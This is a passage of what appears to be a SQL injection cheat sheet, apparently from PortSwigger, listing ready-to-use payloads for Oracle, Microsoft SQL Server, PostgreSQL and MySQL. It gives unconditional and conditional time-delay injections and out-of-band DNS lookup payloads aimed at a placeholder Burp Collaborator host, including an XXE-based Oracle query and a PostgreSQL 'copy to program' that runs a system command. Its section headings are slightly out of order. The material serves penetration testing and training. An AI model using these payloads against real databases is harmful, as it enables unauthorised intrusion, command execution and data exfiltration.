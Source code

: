 You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle

`dbms_pipe.receive_message(('a'),10)`

Microsoft

`WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT pg_sleep(10)`

MySQL

`SELECT sleep(10)`
### Conditional time delays
### DNS
#### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle

The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`  
  
The following technique works on fully patched Oracle installations, but requires elevated privileges:  
`SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`

Microsoft

`exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`

PostgreSQL

`copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`

MySQL

The following techniques work on Windows only:  
`LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`  
`SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
